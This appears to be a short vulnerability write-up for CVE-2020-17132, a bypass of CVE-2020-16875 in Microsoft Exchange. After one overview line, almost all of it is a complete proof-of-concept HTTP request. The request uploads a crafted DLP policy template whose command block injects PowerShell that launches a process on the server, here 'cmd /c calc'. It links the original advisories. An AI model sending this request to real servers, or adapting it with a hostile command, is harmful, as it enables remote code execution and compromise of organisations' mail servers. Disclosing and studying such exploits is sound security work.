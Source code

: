 ## Overview
CVE-2020-17132 is a bypass of CVE-2020-16875. Basically, attackers modify the payload of CVE-2020-16875 a bit by changing from using New-Object to using New-TransportRule.

## Proof of Concept
```
POST /ecp/DLPPolicy/ManagePolicyFromISV.aspx HTTP/1.1
Host: example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 1434
Content-Type: multipart/form-data; boundary=f864f08f080b59138876190f2feecda1

--f864f08f080b59138876190f2feecda1
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
--f864f08f080b59138876190f2feecda1
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$senderBtn"

ResultPanePlaceHolder_ButtonsPanel_btnNext
--f864f08f080b59138876190f2feecda1
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$contentContainer$name"

npcxpgvr
--f864f08f080b59138876190f2feecda1
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl"; filename="dlprce.xml"

<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ new-transportrule -Name $([Diagnostics.Process]::start("cmd /c calc")) -DlpPolicy "%DlpPolicyName%" ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>
--f864f08f080b59138876190f2feecda1--
```

## References
* https://x41-dsec.de/security/advisory/exploit/research/2020/12/21/x41-microsoft-exchange-rce-dlp-bypass/
* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17132
